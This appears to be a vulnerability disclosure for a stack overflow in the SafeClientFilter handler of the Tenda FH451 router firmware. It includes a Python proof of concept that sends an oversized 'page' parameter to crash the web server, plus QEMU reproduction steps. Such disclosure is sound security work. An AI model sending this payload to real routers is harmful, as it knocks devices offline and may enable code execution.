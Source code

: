 # Stack Overflow Vulnerability in Tenda FH451 Router (v1.0.0.9) – SafeClientFilter Component
**Vendor**: Shenzhen Jixiang Tenda Technology Co., Ltd.
**Affected Firmware**: [Download Link](https://tenda.com.cn/material/show/101629)
**Vulnerability URL**: `http://192.168.200.1:80/goform/SafeClientFilter`
**Vulnerability File**: `/bin/httpd`

## Vulnerability Description

Through code auditing, a critical security risk has been identified in the `SafeClientFilter` routing function (Line 35) . 

![image-20250522110500362](./The router Tenda FH451 V1.0.0.9 of Shenzhen Jixiang Tenda Technology Co., Ltd. has a stack overflow vulnerability.assets/image-20250522110500362.png)

Specifically, the program retrieves the input parameter "page" but lacks proper validation for its numerical range (Line 39).

![image-20250522110316779](./The router Tenda FH451 V1.0.0.9 of Shenzhen Jixiang Tenda Technology Co., Ltd. has a stack overflow vulnerability.assets/image-20250522110316779.png)

Cross-referenced to the function `sub_64EAC`, with attention to lines 44 and 47.

![image-20250522110610289](./The router Tenda FH451 V1.0.0.9 of Shenzhen Jixiang Tenda Technology Co., Ltd. has a stack overflow vulnerability.assets/image-20250522110610289.png)

The path of the webpage where the vulnerability occurs is known to be `goform/SafeClientFilter`.

## PoC 

```python
import requests

url = "http://192.168.200.1:80/goform/SafeClientFilter"

payload = {
   'page': b'a'*(0x100000)
}

res = requests.post(url=url, data=payload)
print("Status Code:", res.status_code)
print("Response:", res.text)
```

## Reproduction Steps

**1. Environment Setup**:
Simulate the router firmware using QEMU

!![image-20250522110739954](./The router Tenda FH451 V1.0.0.9 of Shenzhen Jixiang Tenda Technology Co., Ltd. has a stack overflow vulnerability.assets/image-20250522110739954.png)

**2. Router Initialization**:
Ensure the router is running and accessible via `http://192.168.200.1`.

![image-20250522110755361](./The router Tenda FH451 V1.0.0.9 of Shenzhen Jixiang Tenda Technology Co., Ltd. has a stack overflow vulnerability.assets/image-20250522110755361.png)

**3. Exploit Execution**:
Run the PoC script. The router will crash, rendering the web interface inaccessible.



![image-20250522110943875](./The router Tenda FH451 V1.0.0.9 of Shenzhen Jixiang Tenda Technology Co., Ltd. has a stack overflow vulnerability.assets/image-20250522110943875.png)

![image-20250522111000926](./The router Tenda FH451 V1.0.0.9 of Shenzhen Jixiang Tenda Technology Co., Ltd. has a stack overflow vulnerability.assets/image-20250522111000926.png)



The router has crashed, and the web interface is also inaccessible.

## Impact 

Remote attackers can exploit this vulnerability to crash the router (`httpd` process) or potentially execute arbitrary code.